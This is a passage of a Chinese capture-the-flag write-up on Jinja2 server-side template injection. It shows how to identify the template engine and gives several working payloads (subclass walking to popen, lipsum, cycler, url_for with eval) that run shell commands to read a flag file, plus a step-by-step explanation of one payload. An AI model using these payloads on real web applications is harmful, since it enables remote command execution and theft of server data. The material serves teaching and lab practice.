 ![image-20240218222926684](https://i-blog.csdnimg.cn/blog_migrate/5c9d66bfe319f0d832baafee0a01f403.png)

这里可以判断一下注入类型

![image-20240217151419198](https://i-blog.csdnimg.cn/blog_migrate/bf27d37280fd39b25b8485c22ed06fb4.png)

输入{{4\*‘4’}}，返回16表示是 Twig 模块

输入{{4\*‘4’}}，返回4444表示是 Jinja2 模块

显然是Jinja2 模块

![image-20240218223156150](https://i-blog.csdnimg.cn/blog_migrate/fba14904ef17bd2f55f1708bcfe011e1.png)

查找可以利用的函数

```handlebars
`?name={{''.__class__.__base__.__subclasses__()}}`
```

提供 os.\_wrap_close 中的 popen 函数

![image-20240218223323922](https://i-blog.csdnimg.cn/blog_migrate/19e03266c80b763a0cb8b68c2c8cda5d.png)

这很麻烦需要一个一个数，第132个子类

但是网上好像有脚本，可以试试

所以payload

```handlebars
`?name={{''.__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('tac ../flag').read()}}`
```

也可以直接用 lipsum 和 cycler 执行命令

```handlebars
?name={{lipsum.__globals__['os'].popen('tac ../flag').read()}}
?name={{cycler.__init__.__globals__.os.popen('ls').read()}}
```

或者用控制块去直接执行命令

```php
`?name={% print(url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()"))%}`
```

1.  `{% ... %}`：这表示一个模板语句块，在 Flask 中，这用于执行模板中的代码。
2.  `url_for`：这是 Flask 中用于生成 URL 的函数。
3.  `url_for.__globals__`：这是 `url_for` 函数对象的全局命名空间，其中包含了函数被定义时的全局命名空间。
4.  `['__builtins__']`：这是 Python 中每个模块都有的一个属性，包含了内置函数和异常的命名空间。
5.  `['eval']`：这是 Python 内置函数 `eval` 的引用，允许执行字符串中的 Python 表达式。
6.  `("__import__('os').popen('cat ../flag').read()")`：这是一个字符串，其中包含了一个 Python 表达式，它会导入 `os` 模块，执行 `cat ../flag` 命令来读取敏感文件的内容，并返回该内容。
7.  `__builtins__['eval']("__import__('os').popen('cat ../flag').read()")`：这是在模板中执行内置函数 `eval`，并传入上述字符串作为参数，实际上就是执行了敏感操作。
8.  `print(...)`：这是 Python 中的打印函数，用于将 `eval` 函数的结果打印出来。
